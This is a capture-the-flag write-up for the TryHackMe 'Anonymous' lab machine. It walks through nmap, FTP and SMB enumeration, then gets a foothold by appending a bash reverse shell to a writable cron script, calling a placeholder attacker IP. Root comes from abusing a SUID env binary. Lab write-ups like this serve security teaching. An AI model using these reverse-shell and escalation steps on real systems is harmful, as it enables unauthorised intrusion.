

# TryHackMe(THM) - Anonymous - WriteUp

> Austin Lai | August 9th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Anonymous](https://tryhackme.com/room/anonymous)

Difficulty: **Medium**

However, I rate it as quite easy.

The room is completed on June 11th, 2020

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - Anonymous - WriteUp](#tryhackmethm---anonymous---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
        - [Question 1](#question-1)
        - [Question 2](#question-2)
        - [Question 3](#question-3)
        - [Question 4](#question-4)
        - [Question 5](#question-5)
        - [Question 6](#question-6)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Task 1

```text
Not the hacking group

Try to get the two flags!

Root the machine and prove your understanding of the fundamentals!

This is a virtual machine meant for beginners.

Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.
```

### Question 1

_Enumerate the machine.  How many ports are open?_

You will have the answer once you done basic enumeration --- nmap

### Question 2

_What service is running on port 21?_

You will have the answer once you done basic enumeration --- nmap

### Question 3

_What service is running on ports 139 and 445?_

You will have the answer once you done basic enumeration --- nmap

### Question 4

_There's a share on the user's computer.  What's it called?_

You will have the answer once you done basic enumeration --- nmap

Or if you done enough enumeration.

### Question 5

_user.txt_

### Question 6

_root.txt_

---

## Let's Begin Here !!!

Let fire up basic enumeration.

Nmap result:

```text
# Nmap 7.80 scan initiated Thu Jun 11 16:49:01 2020 as: nmap --privileged --stats-every 15s -vvvvvv -Pn -p- -r -A -sCSV -O --version-all -T4 --min-parallelism 50 --min-rate 1000 --script=vuln --script-trace --reason --append-output -oN TryHackMe-Anonymous 10.10.206.73
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|   Hosts that seem down (vulnerable):
|_    224.0.0.251
Nmap scan report for 10.10.206.73
Host is up, received user-set (0.45s latency).
Scanned at 2020-06-11 16:49:46 Malay Peninsula Standard Time for 202s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 61 vsftpd 2.0.8 or later
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Uptime guess: 40.503 days (since Sat May 02 04:49:24 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          

TRACEROUTE (using port 8/tcp)
HOP RTT       ADDRESS
1   179.00 ms 10.4.0.1
2   ... 3
4   455.00 ms 10.10.206.73

Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 11 16:53:08 2020 -- 1 IP address (1 host up) scanned in 248.24 seconds


PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]


PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.2.85
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 1s
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required


PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.206.73\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (anonymous server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.206.73\pics:
|     Type: STYPE_DISKTREE
|     Comment: My SMB Share Directory for Pics
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
|     Current user access: READ
|   \\10.10.206.73\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users:
|   ANONYMOUS\namelessone (RID: 1003)
|     Full name:   namelessone
|     Description:
|_    Flags:       Normal user account

Nmap done: 1 IP address (1 host up) scanned in 66.54 seconds
```

As you see the nmap result we have FTP and SMB, let's enum further ...

FTP:

```dos
C:\Users\crazy\Desktop>ftp 10.10.206.73
Connected to 10.10.206.73.
220 NamelessOne's FTP Server!
200 Always in UTF8 mode.
User (10.10.206.73:(none)): Anonymous
331 Please specify the password.
Password:
230 Login successful.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp: 68 bytes received in 0.01Seconds 13.60Kbytes/sec.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1462 Aug 09 01:16 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp: 330 bytes received in 0.02Seconds 19.41Kbytes/sec.
```

SMB:

```bash
smbclient -L \\\\10.10.206.73

Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

root@kali-2020:/austin# smbclient \\\\10.10.206.73\pics
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun May 17 19:11:34 2020
  ..                                  D        0  Thu May 14 09:59:10 2020
  corgo2.jpg                          N    42663  Tue May 12 08:43:42 2020
  puppos.jpeg                         N   265188  Tue May 12 08:43:42 2020

                20508240 blocks of size 1024. 13145452 blocks available
```

Download everything so you can study and inspect it.

Starting with clean sh, that is interesting, it seem like a cronjob running this script to remove file from tmp directory.

We can get reverse shell from here.

clean sh:

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

Let's exploit it ! Add a line into clean sh.

```sh
bash -i >& /dev/tcp/YOU_IP_HERE/9999 0>&1
```

Then fire up netcat and wait for the connection.



Well, you have your user txt here.

Time to get PrivEsc and Root it !

Let check on suid.

```sh
namelessone@anonymous:~$ find /usr/bin/ -perm -u=s -type f 2>/dev/null
find /usr/bin/ -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

You have notice one particular executable is interesting.

What was it ?

Do a quick research and google, you will have the answer.

<details><summary>Hint</summary>

```sh
namelessone@anonymous:~$ env /bin/sh -p
env /bin/sh -p
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
pwd
/home/namelessone
cd /root/
ls -l
total 4
-rw-r--r-- 1 root root 33 May 11  2020 root.txt
```

</details>

There, your root txt !

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


